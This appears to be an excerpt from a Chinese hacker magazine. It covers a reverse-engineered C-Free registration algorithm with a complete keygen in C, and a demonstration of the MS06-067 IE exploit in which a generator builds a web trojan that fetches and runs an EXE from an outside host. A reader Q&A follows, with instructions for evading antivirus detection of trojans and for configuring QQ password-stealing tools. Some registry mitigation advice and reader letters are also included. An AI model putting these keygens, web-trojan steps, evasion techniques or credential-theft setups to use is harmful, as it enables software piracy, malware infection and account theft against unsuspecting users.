text:00584C40 longtoa proc near
text:00584C49    mov     edi, [ebp+YuShu]
text:00584C4C    mov     esi, [ebp+XorMachineCode]
text:00584C4F    mov     ebx, [ebp+arg_4]
text:00584C52    cmp     edi, 2
text:00584C55    jl      short loc_584CA4
text:00584C57    cmp     edi, 24h
text:00584C5A    jg      short loc_584CA4
text:00584C5C    test    esi, esi
text:00584C5E    je      short loc_584C6C
text:00584C60    cmp     [ebp+arg_C], 0
text:00584C64    jz      short loc_584C6C
text:00584C66    mov     byte ptr [ebx], 20h
text:00584C69    inc     ebx
text:00584C6A    neg     esi
text:00584C6C loc_584C6C
text:00584C6C    lea     ecx, [ebp+var_24]
text:00584C6F    ...
``````asm
text:00584C6F mov eax, esi
text:00584C71 xor edx, edx
text:00584C73 div edi
...
```

# 算法小结

var_1=var_2%YuShu。

var_2=XorMachineCode/YuShu。

这里 var_1=var_2%YuShu 中的变量 var_2 第一次时为 XorMachineCode，第二次以后才被修改成异或结果除以余数所得的商。然后程序会比较 var_2 是否为 0，为 0 循环结束。然后，程序跳到了 584C9D 处。

```asm
text:00584C9D loc_584C9D:
text:00584C9D lea edx, [ebp+var_24]
text:00584CA0 cmp ecx, edx
...
```

在第一次执行到 00584CA0 的时候，数组的最后一位（\0）与数组的第一位肯定是不相等的，第一次看到这个地方的时候我迷惑了半天。后来才搞明白，这是一个隐式的函数调用，函数的地址是 584C86，作用是将上面处理后的数组中的元素取反，也就是数组中的第一位成为最后一位，最后一位成为第一位（当然其中还有别的处理，具体看下面的代码），其余的元素依次类推。下面就是函数 584C86。

```asm
text:00584C86 loc_584C86
text:00584C86 dec ecx
text:00584C87 mov al, [ecx]
...
```

# 算法小结

首先程序比较数组中的元素和 0x0a 的大小关系，大于等于 0x0a 就执行下面的运算。

al=var_24+0x61+0xf6，并将结果存入内存中（地址存放在 ebx 中）。var_24 为 XorMachineCode 除以余数所得到的余数。

如果数组小于 0x0a，就将结果加上 0x30 并保存在内存中。

584C9D 的代码上面已经给出了，大家可以回去看看。可以看到，程序在处理完了这几个循环后就返回了。这里需要说明的是 00584CA7 处的那一长串表达式，是我追踪函数保存值、注册码地址的表达式，大家可以不用理会。当然如果你有兴趣的话，可以跟踪一下程序在不同的函数中对这几个地址的存储情况，因为在算法开始的时候，也就是在地址 0041968F 和地址 00419673 处传递的东西我没有搞清楚，所以跟踪了一下。

# 算法总结

- 1. XorMachineCode=MachineCode^0x90909090
- 2. YuShu=XorMachineCode%0x25
- 3. 如果 YuShu 小于 0x11 就加上 0x11，否则什么都不加
- 4. tmp1=XorMachineCode%YuShu
- 5. 如果 tmp1 小于 0x0a，就将 tmp1 加上 0x30，否则加上 0x61 再加上 0xf6，令 RegCode[i]=tmp1
- 6. 令 XorMachineCode=XorMachineCode/YuShu，并判断 XorMachineCode 是否为 0，不为 0 就回到步骤 4 继续循环，为零进行下一步
- 7. 将 RegCode 数组中的各元素取反，即第一个元素变为最后一个元素，最后一个元素变为第一个元素，其他元素依次类推。最后得到的数组就是注册码了

说了这么多，大家可能晕了吧？还是给出注册机吧，这样可以帮助大家更直观地认识 C-Free 的算法。

```c
#include <stdio.h>
int main()
{
    char RegCode[128]={0};
    int i=0;
    unsigned int XorMachineCode,YuShu,tmp1,MachineCode;
    printf("Enter MachineCode Plz:\n");
    scanf("%d",&MachineCode);
    XorMachineCode=MachineCode^0x90909090;
    YuShu=XorMachineCode%0x25;
    YuShu+=(YuShu<0x11)?0x11:0x00;
    while(XorMachineCode)
    {
        tmp1=XorMachineCode%YuShu;
        XorMachineCode/=YuShu;
        tmp1+=(tmp1<0x0a)?0x30:(0x61+0xf6);
        RegCode[i]=tmp1;
        i++;
    }
    printf("Your Register Code is:\n");
    for(i-=1;i>=0;i--) printf("%c",RegCode[i]);
    printf("\n");
    return 0;
}
```

好了，整篇文章到这里就结束了，希望通过我的讲解，可以让大家对这种注册类型的软件有一个更深层次的了解。本期光盘中有我这次 IDA 反汇编的压缩包，大家进入后按 Ctrl+M，然后点 OK 就可以找到算法的关键 call 了。我们下次见！

# 编辑点评

算法分析都是一样的，繁琐但不复杂，而怎样才能快速有效地分析出程序的算法，这需要的就是经验、感觉和你的苦练。我很多软件是可以通过爆破破解，但要提高你自己，还是静下心来跟踪吧。

# 惊爆 IE 最新漏洞

MS06-067

手册在进厂印刷之前，收到的最新漏洞 MS06-067，敬请读者关注。

刀锋战士

- 从本文你可以学到：
- 1. MS06-067 漏洞的利用
- 2. 漏洞实际演示

## 一、漏洞描述

Microsoft IE 的 daxctle.ocx ActiveX 控件实现上存在堆溢出漏洞，远程攻击者可能利用此漏洞在用户机器上执行任意指令。

Multimedia Controls ActiveX 控件（daxctle.ocx）的 CPathCtl::KeyFrame() 函数存在溢出漏洞。如果 HTML 文档对 ActiveX 控件的 KeyFrame() 方法传送特制参数，则用户受骗访问了这样的恶意 HTML 文档后就会导致执行任意代码。

## 二、受影响的系统

- Microsoft Windows 2000 Service Pack 4
- Microsoft Windows XP Service Pack 2
- Microsoft Windows XP Professional x64 Edition
- Microsoft Windows Server 2003
- Microsoft Windows Server 2003 Service Pack 1
- Microsoft Windows Server 2003（用于基于 Itanium 的系统）
- Microsoft Windows Server 2003 SP1（用于基于 Itanium 的系统）
- Microsoft Windows Server 2003 x64 Edition

详细情况请参考微软的安全公告：http://www.microsoft.com/china/technet/security/bulletin/MS06-067.mspx

## 三、利用体验

11 月 14 日，微软发布了它最新的十一月安全公告，包含了 5 个严重漏洞，其中的 MS06-067 IE 漏洞更是以“严重”等级著称！由于涉及到 IE 的众多版本，而且也是刚刚公布，所以危害程度更是不容小视，值得每个安全人员的关注。

下面就来看一下这个漏洞测试过程。测试环境：XP SP2 Home Edition，IE 版本 6.0。漏洞的 shellcode 我已经编译成了 EXE 文件，可以拿来直接使用！我们先来生成一个网马（图 1），这里就拿“Windows 按钮专家”做测试，体积 4.5K，短小精悍！

为了照顾菜鸟，这里再说明下参数：  
`<URL>`——EXE 程序的 http 地址  
`[htmlfile]`——生成的网页木马名字。

看见提示了没？exploit write to ms06067.htm success! 生成了网页木马 ms06067.htm，接着把这个木马上传到空间上面去，如图 2。

```text
Code by nop nop/xsec.org. Welcome to http://www.xsec...

Usage: c:/ms06067.exe <URL> [htmlfile]

C:\>ms06067 http://xyl.bigwww.com/test.exe ms06067.htm
### download url=http://xyl.bigwww.com/test.exe
### exploit file=ms06067.htm
"ua3e9x..."
...
[*] exploit write to ms06067.htm success!
```

接下来，需要我们打开浏览器，输入网马地址，如果能打开网页并弹出了“Windows 按钮专家”代表测试成功，反之亦然！此刻我心潮澎湃，激动不已。因为我的系统都升级全了补丁，可谓是铜墙铁壁，而且配备了一级防火墙和杀毒软件，对此我充满信心，COME ON！来看看 MS06-067 的威力到底如何？

输入我的网马地址 http://xyl.bigwww.com/ms06067.htm，打开网页自动运行了“Windows 按钮专家”，如图 3，而且不闪、不弹窗，汗！不愧是高危级的漏洞！

看到这里，没打补丁的朋友赶紧去打上补丁哈，及时做好个人电脑的安全，免得中招！相信不久，木马和蠕虫就会很快泛滥，血流成河的场面将再次上演。菜鸟又乐了，将有一批新的肉鸡即将进账，又有得玩咯。

## 四、补救措施

请将以下文本粘贴于记事本等文本编辑器中，然后使用 .reg 文件扩展名保存文件：

```reg
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{D7A7D7C3-D47F-11D0-89D3-00A0C90833E6}]
"Compatibility Flags"=dword:00000400
```

您可以通过双击此 .reg 文件将其应用到各个系统。另外，官方提供的补丁下载地址：http://www.microsoft.com/china/technet/security/bulletin/MS06-067.mspx

【本文涉及到源代码、编译好的工具以及修补代码在光盘中有提供】

> 编辑点评

据说小编正在吃晚饭，突然接到老编加急短信“上线！！”，感觉貌似有什么大事发生了，扔下饭碗，开机上网，急 Q 寻老编，得此文。看罢，吓一身冷汗，漏洞异常严重。

请大家千万留意，及时修补！小编继续吃饭去……（小天这顿饭吃得可是有惊无险，险象环生）

图1 EXE 生成网马

图2 上传网马

图3 运行网马的效果

# Q&A

## NOHACK

3、我电脑桌面上的图标有几个变成散乱花色，不影响使用了，是怎么回事？  
4、CMOS 中哪个选项会导致电脑运行有情况的？怎么办才知道该项调到与原来的一样？

A：首先不要恐慌，也不要跑路，请看我的答案，希望对你有帮助。

1、说到底还是对 Ghost 的使用不是很了解。建议看一下这里，Ghost 的使用详解：http://3800pop.com/ghost。建议你在没有开机的时候进入矮人 DOS 工具箱。要是在开启系统之后做备份，是容易出问题的。

2、开机慢主要有下面几个原因。第一，由于加载的启动程序过多，我们可以使用 msconfig 去掉。首先点击“开始”，然后选择“运行”，输入“msconfig”，选择最后的“启动”，去掉不需要的选项，然后确定就可以了。

第二：系统开机的时候需要加载一些如网络的服务等，会导致系统假死的状态，这个是正常。要是不想产生这种假死的话，只需要拔掉网线，然后开机加载之后再插上网线即可。

3、这个有可能是关联的图标加载有错误了。右键这个图标，然后打开“属性”，选择“更改图标”，然后选择“浏览”，找到原来的程序，最后“确定”一下。要是上面的不行，建议你使用优化大师或者魔法兔子修复一下关联的图标。

4、在主板 BIOS 中 ADVANCED CHIPSET——DRAM CONFIGURATION 下有调节（我记得是这个选项里，如果找不到可以询问主板厂商的客服如何更改，当然不同版本的 BIOS 也有所不同）；将内存频率由 DDR400 改成 DDR333（DDR400 在里面显示的数字是 200，因为频率要乘以 2，DDR333 的频率就是 166）。调节的时候要注意你的 CPU 前端总线是 533 的话，将你的频率设置都定为 133 就可以了，要是 800 的话可以定为 200。

url：http://nohack.cn/bbs/thread-52470-1-1.html

Q：关于拷贝虚拟机问题，我装上虚拟机后新创建了一个 win2000，但是每次启动都会出现这样的英文提示：

No bootable CD, floppy or hard disk was detected.  
To install an operating system,  
insert a bootable CD or floppy and restart  
the virtual machine by clicking the restart button.

我启动不了啊，哪位高手帮忙解答一下啊！

A：虚拟机安装好之后也需要对新建的虚拟机安装系统，你可以打开虚拟机，然后编辑这个虚拟机设置，在 CD-ROM 设置里修改：

1＞使用物理机的光驱：直接把光盘放进去就可以了。

2＞可以使用 ISO 镜像文件：ISO 文件可以到番茄花园等一些发布操作系统的网站下载。

然后开启虚拟机，按键盘上的 F2，进入虚拟机的 BIOS 设置，修改 BOOT 选项，把第一项选择成 CD-ROM 就可以了。

url：http://nohack.cn/bbs/thread-52578-1-1.html

Q：几次大家都懒得回答的问题：

1、我的电脑安装的是矮人 DOS 工具箱并 Ghost8.2 版的，第一次是在 E: 盘符输入 CD..、GHOST(ENTER)→E:\GHOST\，接着输入 GHOST(ENTER) 就出现了熟悉的 GHOST 操作界面。于是就给 C 盘做了个镜像。结果后来想进 GHOST，就只能在开机时进入矮人 DOS 工具箱下选择启动 Ghost8.2 版了；再以此命令怎么也不灵了，而且选择镜像文件进行释放的时候总是提示找不到镜像文件。我头脑中此路一团糟糊了。谁帮我解答一下啊！跪求。

2、电脑开机后特别慢，启动以后就不慢了，而且总是死锁，无故有程序运行的迹象（就是鼠标变成漏斗状，电脑根本没联网）。怎么回事？我迷糊了。谁能告诉我怎么解决。

Q：NTscan 为什么扫不到 135 的弱口令？请问哪位高手说得要使用 NTscan 必须取消电脑上的什么设置才可以，我在其他机子都可以，但在自己的上面就不行。

A：可能有两方面的原因：

第一：被网络服务商所屏蔽了端口。大约在 99 年的时候，那段时间有一种病毒就是利用 135 这个共享的端口疯狂地传播，导致国内网络几乎是一片瘫痪的状态，所以国家发出要求，所有的网络服务商从服务器上屏蔽 135 端口。

第二：没有去除限制。这个由于没有去除微软线程的限制，建议你使用这个程序 http://pop3067.51.net/EvlD4226Patch.exe 来修改线程即可。

Q：我电脑中了病毒，D 盘自动播放，请高手帮忙解决。我的电脑的 D 盘有个什么叫 autorun OPEN=D:\command.com，这儿应该是病毒文件。可看到注册表里 D 盘的 command.com 以及 D 盘自动播放之类的值都删除了，D 盘的文件也删除了，怎么重启计算机过后所有被删文件和注册表里的都又有了呢？我用的是 XP 系统，没有对系统进行还原设置。请哪位高手指点一下，把我 D 盘的问题解决了。

A：最近很多的朋友也问我这个问题。电脑中了这个病毒后也没有什么其他的症状，只是打开逻辑分区的时候第一项被修改成了“Auto”。其实我们这里也不用怕，可以用手动的方式来删除它。

第 1 种方法：  
格式化该移动设施。该法删除比较彻底，适合文件不多、空间不大的移动设施。格式化后，问题完全解决。

第 2 种方法：  
1）点右键选择“打开”（千万不能双击打开，否则木马又会进行复制），找到该盘下的 sxs.exe 文件、autorun 文件、超级文本以及以 fot 开头的文件，全部删除（autorun、超级文本以及以 fot 开头的文件为隐藏，可以在“我的电脑”窗口最上端——工具——文件夹选项——查看——显示所有隐藏文件，让它显示；以及显示受系统保护的文件）。

2）首先，点击“开始”菜单，打开“运行”，输入 regedit 打开注册表。然后依次展开下列项 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2，将子目录下所有带加号“+”的项依次展开，如果发现有一项叫作“command”的，这就是被病毒篡改过的了。正常模式下这一项应该为“DropTarget”。

把“病毒”的项从“AutoRun”（注意是从“AutoRun”）往下全部删除即可。

在完成上述操作后，打开“我的电脑”，右键一下“逻辑分区”，检查是否有“Auto”，如果没有，则删除成功。

Q：最近刚重新安装了系统，换成了 McAfee（麦咖啡）杀毒软件，不过不知道怎么搞的，Foxmail 5.0 不能发出邮件。高手快帮我分析一下……

A：说到 McAfee，其实还很特别。McAfee 安装好之后，它默认会阻挡 25 端口，所以会直接导致发不出去邮件。打开 McAfee 的控制台，找到“访问保护”双击一下，会看到它默认选择了“禁止大量发送邮件的蠕虫病毒发送邮件”，双击一下“编辑”，然后在已排除进程中加入“Foxmail.exe”即可。这样 McAfee 就不阻挡 Foxmail 的发信了。

> Q：关于 VMware 虚拟机的问题。大家好！我有一个小问题，就是在 11 期里关于那个虚拟机的，我装了半天都装不起来，什么都设置好了以后，桌面上的状态栏还显示没有装 VMware Tool。后来我又拿那个 Window 文件夹解压了一下，装一装。可是它提示装不起来，我真的没办法了。难道真装不起来吗？真想有个人帮我装一下，不然我实在没办法了。

A：关于 VM 的虚拟机是这样的，要是你安装好系统后就安装一下“虚拟机工具”。这样方便虚拟机与本机的鼠标、键盘等的操作。要是安装之后还是提示没有安装“虚拟机工具”的话，不要着急，可以做下面的测试：你把鼠标直接移动到虚拟机里面，点击一下，然后试着把鼠标拖出虚拟机的屏幕来。要是能成功就不用管，只是一个提示。要是不行，建议你重新装一下虚拟机工具，或者重新安装一个新版本的虚拟机。

> Q：请帮我解决木马问题，我都不知道怎么办了，杀木马呀，帮我！

A：针对现在的木马免杀，主要用下面两种方法来实现。第一，给木马加一些比较生僻的壳来逃避杀毒软件的追杀；第二，针对杀毒软件来定位杀毒软件追杀木马的特征码，然后修改特征码。第一种方法比较简单，但是效果不好，有时候过几天使用的人多了，照样被杀。第二种方法免杀的效果以及免杀的时间都会比较长，但是操作不是很简单。现在最流行的就是使用 myccr 来定位特征码，具体的操作请借鉴近两期手册免杀版文章。

> Q：请教《黑客手册》中“偷盗 QQ 我来用”中挖掘机的使用方法。由于《黑客手册》中“偷盗 QQ 我来用”中挖掘机的使用方法不够详细，且模糊不清。请问挖掘机有什么功能和盗 QQ 时有哪些详细过程？

A：想知道原因的话，首先需要了解一下如何使用盗 QQ 软件。现在比较流行的盗 QQ 软件都带有使用网站 ASP 收信的方式，因为 ASP 收信比较便于管理以及查看，所以深受盗 QQ 的朋友的喜欢。ASP 收信首先需要一个支持 ASP 的空间，然后将收信的 ASP 程序上传到空间里面，每当有 QQ 信息的时候木马就会自动访问这个 ASP 程序，这个 ASP 程序就会记录 QQ 号和密码在一个文本里面。有些粗心的人并不能更改生成文本的名称，而这些默认的文本名称我们知道，所以我们就可以使用挖掘机来搜索这个生成的文本。我们直接访问这个文本文件，就可以看见他盗的 QQ 了。

> Q：我想盗几个 QQ 号码，该怎么做？我使用的是盗Q侠这个软件。

A：其实盗 QQ 也不算什么本事了，网上的教程也很多，我这里就给你简单地说一下，不过我奉劝一句，盗 QQ 号是一种违法行为。

用“EMAIL 收信”的：首先准备 2 个邮箱，一个发信，一个收信。要是你的发信邮箱是 abc@163.com 的话，那么这里的邮箱服务器等，请按照我这样的类型写。发信邮箱服务器：smtp.163.com，发信箱名称：abc，发信箱全称：abc@163.com，发信箱密码，这个就是你自己的发信箱密码了。下面还有一个收信箱，比如使用 123@126.com，直接写上就可以了。最后点击一下生成，就可以用 EMAIL 收信了。

用“网站收信”的：把附带的“dqhx.asp”上传到你的空间，然后在配置的时候选择网站收信，输入你的网站地址 http://你的网站地址/qq.asp，这样就可以了。最后点击一下生成，就可以用网站收信了。

> Q：为什么滚动网页时总是很卡。为什么装了新系统以后滚动网页时页面的动态图画总是很卡顿的样子？我已经装了瑞星杀过毒了，还是这样！哪位大侠知道啊？

A：这个可能是显卡的问题，建议你安装一下显卡驱动。要是安装了显卡驱动的话，开启显卡的硬件加速。方法：右键桌面的属性-设置-高级-疑难解答，然后把“硬件加速”拉到全。

城市：广西柳州 论坛 ID：X_yh-Wing

——对某篇文章的读后感

文章名称：《小菜补端口2——端口和应用》

读后感：连着看了两期的小菜补端口，哎，这类文章就是为我们而作的。作者的良苦用心让像我这类小菜对端口这类知识的认识有了提高，有了端口，嘿嘿……还用我说么？

建议和意见：默默无闻地买了 10 多期，也看着 NOHACK 在不断地改进。从内容、排版、回执单到封面，都给人全新的感觉。

哎！此时无声胜有声。祝《NOHACK》越办越好，成为畅销书！

总编辑语：总感激，谢谢 X-yh-Wing 朋友，好一个“此时无声胜有声”！不过，买书当然要默默无闻啦，不信，你拿复刻版买来一次《黑客手册》试试看咯！

城市：江苏无锡 论坛 ID：Notappled

——对某篇文章的读后感

文章名称：《小菜补端口》

读后感：呵呵，俺正自学《TCP/IP 及网络编程技术》，刚好看到 UDP 端口和 TCP 连接那一章，晕晕糊糊看了半天，就是没弄明白，结果就这么一补，全通了！

# 读者来信

城市/杭州 论坛ID/情誓

建议和意见：我女朋友一天到晚上网，怎么样才能让她上不了网，最好是那种永远也上不了网的病毒，求求编者能告诉我，最好给我回信，或者加QQ告诉我。拜托，不然她肯定就不要我了！拜托！拜托！拜托！拯救我！

光编——光棍编辑：将你的烦恼给我吧，我带她到深山，到那些没有网络，连手机信号都没有的偏僻地方，然后……嘿嘿……组织《黑客手册》读者女友自助游……（天空飞来无数板砖，拍向光编的工作间）。不过，情誓（难道全称是情圣哲学？光编疑惑ing）同学在信中并没有透露太多细节；小编猜测可能是感情遭遇了红灯。小编感情虽然很丰富，但是对付这种老吵老闹的感情问题却缺乏经验，也只能劝你哭哭泣泣，并努力争取，或者冷却一段时间看看。另：如果情誓同学发明了“永远上不了网的病毒”，请告知小编一声，谢谢。

城市/山东青岛 姓名/张坤

- 对某篇文章的读后感：
- 文章名称：《寂寞花开》
- 读后感：坦白地说，我是一名初学者，一个对网络黑客充满无限幻想和多愁善感的人，有时候喜欢一个人独处，特别是在受伤之后。其实在我心中的黑客，一直都是那种默默无闻，无论有多大的发现，或者有多大的成功都将一笑而过的人。而在这许许多多的发现和成功的背后，谁又能给予他们多少理解和关怀呢？“你所能看到的也只有 Nohack 到此一游”。

主编——主栏编辑：对于任何事物的理解，每个人都有自己的方式方法，“黑客”一词从诞生到流行，再到普及，这个过程虽然漫长，其实还需要时间来考验的。

城市/安徽临泉 论坛ID/拾破烂的

建议和意见：杂志已经改版4期了，改版的杂志变得更好看了。也许细心的读者已经发现，我们杂志的封面少了几个我们这些老读者非常熟悉的字眼——自由独行的边缘文化！

对于我们这些老读者来说，早已领悟到《黑客手册》所发扬的黑客精神，而对于新读者来说呢？或许他们还并未树立好正确的黑客观念。

让《黑客手册》成为发扬黑客精神的领头人，使原生态的黑客理念深入人心，我相信《黑客手册》将引领我们走得更远、更顺利……

又有机会来玩：这个“原生态黑客”，这个词造得好，小编决定推荐给封面作为本期口号，感谢拾破烂的同学。另，“自由独行的边缘文化”其实这几个字一直都出现在光盘中，大家居然没有发现？《极度郁闷》……做黑侠要注意多观察哦！应该将自己的独特黑客精神永记心中，随时调用，挥洒自如，防止乱入……

城市/广东茂名 论坛ID/hua4012

- 对某篇文章的读后感：
- 文章名称：《你盗QQ我来用》
- 读后感：真是一山还有一山高啊，有啥法子可防呢？

稿懒小编：就是因为“一山还有一山高”，所以技术才会不断地发展呀！激烈攻防，残酷对抗……

城市/山东烟台 论坛ID/kawaru999（或 kawaru）

- 对某篇文章的读后感：
- 文章名称：《菜鸟菜招破网吧》
- 读后感：孩子啊（较娘的孩子：汗……叫我全名），每次我兴奋得手舞足蹈地去看《黑客手册》混乱的排版文章，同学们都以为我在满地找牙；当我读你的文章时，我同学吓得直瞅着我，以为我找不到牙而全身抽筋吗……看你的文章（尤其那15幅图），我是来回反复翻页才看完的，而且当场头晕目眩，四肢无力，胸闷气短；你，陪我去搞定这儿的网吧！

和读者一样头晕目眩，四肢无力，胸闷气喘的某编：当初编辑本文就感受到了中华民族文化的博大精深，当时这个文章标题就让偶研究了半天，究竟该读成“破网吧”（名词），还是“破”网吧（动词）呢？看着这位读者阅读文章的情况，又想起了校稿时候的情景……真是既锻炼了身体又测试了心理……

城市/辽宁大连 姓名/李晓旭

- 对某篇文章的读后感：
- 文章名称：《小菜聊端口（1）》
- 读后感：在说此文章前，偶并不太了解端口是怎样的原理。通过作者通俗易懂的讲解，再加上图文并茂，很生动，也较形象。特别是“街道热心的大妈”，让偶记忆犹新。（不过街道热心老太妈好像不负责帮忙查门牌，嘿嘿）

眼镜猴：看来 Python 的这篇端口写得真不错，写到读者心坎上去了，受到了很多读者的追捧。本期光盘“书城”栏目中也为大家奉献上了“计算机端口介绍”一文，各位读者再补一下吧！